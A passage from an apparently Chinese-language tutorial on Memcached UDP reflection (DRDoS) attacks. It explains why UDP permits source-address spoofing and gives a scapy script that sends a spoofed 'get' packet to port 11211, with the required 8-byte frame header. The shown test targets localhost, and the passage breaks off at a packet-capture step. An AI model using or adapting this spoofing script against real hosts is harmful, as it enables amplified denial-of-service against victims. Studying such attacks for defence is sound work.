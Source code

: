 ![](./上传结果验证.png)

**反射有效载荷**

这里得注意一下，上面的上传我使用了TCP协议发送数据包，反射我必须使用UDP协议。因为只有UDP协议是基于无连接的，这样我们直接发送数据到目标服务器，不需要进行三次握手。同时服务器接收方也无法验证客户源IP，因此这个过程我们才可以利用UDP伪造源地址，实现反射DRDoS攻击过程。

 （特别注意UDP协议使用的时候，每个操作命令必须都要添加数据包结构要加头部8字节标志位，  
 "\x00\x00\x00\x00\x00\x01\x00\x00"）

```
#!/usr/bin/env python3
#-*- coding:utf-8 -*-

from scapy.all import *

get="\x00\x00\x00\x00\x00\x01\x00\x00get a\r\n"

pkt = IP(src="127.0.0.1",dst="127.0.0.1") / UDP(sport=12312,dport=11211) / Raw(load=get)
print('ready send...')
send(pkt, inter=1, count=1)   #发包间隔1，发包数量1
print('send seccuss...')
```

测试抓包:  
服务端：  
我们在服务端抓包查看服务端接受请求后，是否做出回应。